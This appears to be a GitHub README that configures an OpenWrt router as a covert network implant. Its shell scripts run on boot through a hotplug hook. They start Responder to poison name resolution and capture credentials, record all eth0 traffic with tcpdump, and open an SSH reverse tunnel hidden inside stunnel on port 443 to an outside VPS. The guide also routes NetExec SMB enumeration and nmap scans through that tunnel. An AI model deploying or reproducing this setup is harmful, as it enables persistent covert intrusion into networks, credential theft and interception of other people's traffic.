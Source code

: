 # Openwrt Implant

The post I used to get the usb drive to behave properly: https://forum.gl-inet.com/t/mifi-install-package-on-external-storage-usb-or-sd-card/4332

- There are still issues here and there, but it works for everything I configured it for.

------

- When installing python to usb, symlink to `/usr/bin/python` via command: `ln -s /mnt/usb/usr/bin/python3 /usr/bin/python`
	- This will let pip work properly instead of returning "command not found" since the package is installed on the usb, but the shebang is set to /usr/bin/python which can be checked via `head -n 1 /mnt/usb/usr/bin/pip`

------

Enable `ipv6` on command line:

```ruby
uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload                                                                     
service network reload    

uci commit wireless                                                                  
uci commit network
```

For some reason the interface is disabled and it has to be enabled on wan which is pointed to `eth0`

------

To start responder on boot:

```bash
#!/bin/sh  

today=$(date +%m_%d_%Y) 
log="$today"_output.log 

/mnt/sda/usr/bin/python3 -u /mnt/sda/Responder/Responder.py -I eth0 -wF -v >> /mnt/sda/logs/$log 2>&1 &
```

Note: for some reason the Proxy flag makes the database be an annoying little bitch so opted for just `-wF flags`

------

To start tcpdump on boot:

```bash
#!/bin/sh

today=$(date +%y%m%d_%H%M%S)
pcap="$today"_output.pcap

tcpdump -ni eth0 -w /mnt/sda/tcpdump_pcap/$pcap 2>&1 &
```

------

Add to `/etc/hotplug.d/iface/99-ifup-wan`

99-ifup-wan script:

```bash
#!/bin/sh

export USB=/mnt/sda
export PATH=$PATH:$USB/usr/bin:$USB/usr/sbin # This PATH is dependent on existing $PATH
export LD_LIBRARY_PATH=$USB/lib:$USB/usr/lib

uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload
service network reload

sleep 30 # Sleep for 30 seconds so ipv6 can work properly with responder. For some reason ipv6 with Responder on OpenWRT is annoyingly finicky and I wasted too much time to want to touch it anymore.

[ "$ACTION" = "ifup" -a "$INTERFACE" = "wan" ] && {                                                   
        logger "iface wan up detected..."                                                     
        sh /mnt/sda/start_responder.sh
        sh /mnt/sda/start_tcpdump.sh > /dev/null # Output anything to /dev/null
        sh /mnt/sda/start_sshproxy.sh # The ssh reverse dynamic proxy script
}                                                                       
exit 0
```

-------
**NOTE: MAKE SURE TO `chmod +x` ALL THE SCRIPT FILES **

#### Stunnel + SSH:

To install stunnel: `opkg update; opkg install -d usb stunnel`

<u>Stunnel config (implant):</u>

Location: `/mnt/sda/etc/stunnel`

```
output  = /mnt/sda/var/log/stunnel4/stunnel.log
cert    = /mnt/sda/etc/stunnel/stunnel.pem
key     = /mnt/sda/etc/stunnel/stunnel.pem
pid     = /mnt/sda/var/run/stunnel4/stunnel.pid
client  =  yes

[ssh]
accept  = 2223
connect = <vps_ip>:443
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

Symlink `/mnt/sda/etc/stunnel` to `/etc/stunnel` so when we run `/mnt/sda/usr/bin/stunnel` in the script without it bitching about the config file.

Command: `ln -s /mnt/sda/etc/stunnel /etc/stunnel`

<u>SSH Script:</u>

Location: `/mnt/sda/start_sshproxy.sh`

```bash
#!/bin/sh

$USB/usr/bin/stunnel

ssh -N -f -p 2223 root@localhost -R 8081:localhost:22
ssh -N -f -p 2223 root@localhost -R 8081
```


<u>Stunnel config (server):</u>

```
output  = /var/log/stunnel4/stunnel.log
cert    = /etc/stunnel/stunnel.pem
key             = /etc/stunnel/stunnel.pem
pid             = /var/run/stunnel4/stunnel.pid

[ssh]
client = no
accept  = 443
connect = 127.0.0.1:22
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

<u>Stunnel config (pc):</u>

```
output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
client=yes

[ssh]
accept = 2223
connect = <vps_ip>:443
```

SSH Commands:

```
ssh -N -f -p 2223 user@localhost -L 8082:localhost:8081 # To ssh onto implant ssh -p 8082 root@localhost
ssh -N -f -p 2223 user@localhost -L 1081:localhost:1080 # So we can proxy everything might not be needed but I don't care right now
```

Refer to proxychains config and example programs below

------
#### SSH Proxy:

###### <u>On router:</u>

Install the client: `opkg update; opkg install openssh-client`

------

- Only the OpenSSH Client is needed thanks to the implantation of reverse dynamic proxy

```ruby
ssh -N -f -R 1080 user@<vps_host>
```

Script:

```bash
#!/bin/sh

ssh -N -f -R 1080 user@<vps_ip>
```

------

- On the vps make sure to enable ufw and only allow the ssh port.
	- Also configure ssh keys whose public key of router and other computer will need to be added to the authorized_keys

###### <u>On personal computer:</u>

```ruby
ssh -N -f -L 1081:localhost:1080 user@<vps_host>
ssh -N -f -D 1081 localhost
```

Edit proxychains:

```ruby
nano /etc/proxychains.conf

...
socks4 127.0.0.1 <port>
```

------

- Run program through proxychains `proxychains <command> <args>`
###### Examples :

<u>NetExec:</u>

- Wiki: https://www.netexec.wiki/
- Install: https://www.netexec.wiki/getting-started/installation/installation-on-unix

------
Command:

```ruby
sudo proxychains /home/alex/.local/bin/netexec smb <local_ip> -u "user" -p "password" --shares
```

<u>Nmap:</u>

- Have to have `-sT`, `-Pn`, and `-n` flags set

------

Command:

```ruby
sudo proxychains nmap -sT -Pn -n <local_ip_range>
```

------

